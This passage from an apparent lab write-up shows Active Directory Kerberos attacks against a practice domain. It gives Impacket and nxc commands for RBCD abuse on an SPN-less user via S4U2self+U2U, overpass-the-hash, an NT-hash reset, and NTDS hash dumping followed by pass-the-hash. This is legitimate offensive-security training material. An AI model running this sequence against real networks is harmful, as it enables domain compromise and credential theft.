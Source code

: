 ```bash
[*]     adm_prju     (S-1-5-21-1568358163-2901064146-3316491674-24596)

# AND NOW "TRY" TO DELEGATE BUT THIS HAPPENS
getST.py -dc-ip 10.10.173.53 -spn cifs/mucdc.heron.vl 'heron.vl/adm_prju:REDACTED' -impersonate _admin
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating _admin
[*]     Requesting S4U2self
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Probably user adm_prju does not have constrained delegation permisions or impersonated user does not exist
```
This is normal but the writeup is long enough as it is so I put some links which explain why it doesn't work and I go straight to the attack

[https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)

[https://tttang.com/archive/1617/#toc_user-to-user-kerberos-authentication-u2u](https://tttang.com/archive/1617/#toc_user-to-user-kerberos-authentication-u2u)

[https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users)

```bash
# Obtain a TGT through overpass-the-hash to use RC4
getTGT.py -hashes :$(pypykatz crypto nt 'REDACTED') 'heron.vl'/'adm_prju'
# Obtain the TGT session key
describeTicket.py 'adm_prju.ccache' | grep 'Ticket Session Key'
# Change the controlledaccountwithoutSPN's NT hash with the TGT session key
smbpasswd.py -newhashes :2b4fb5a299c89025e4a37065f877efda 'heron.vl'/'adm_prju':'REDACTED'@'heron.vl'
# Set the .ccache
export KRB5CCNAME='adm_prju.ccache'
# S4U2self+U2U, followed by S4U2proxy
impacket-getST -u2u -impersonate "_admin" -spn "cifs/mucdc.heron.vl" -k -no-pass 'heron.vl'/'adm_prju'
# Set the .ccache
export KRB5CCNAME='_admin@cifs_mucdc.heron.vl@HERON.VL.ccache'
# Dump hashes
nxc smb 10.10.173.53 --use-kcache --ntds
           
# _admin:500:aad3b435b51404eeaad3b435b51404ee:399[...]938:::

nxc smb 10.10.173.53 -u '_admin' -H '399[...]938' --shares
SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
SMB         10.10.173.53    445    MUCDC            [+] heron.vl\_admin:399[...]938
```

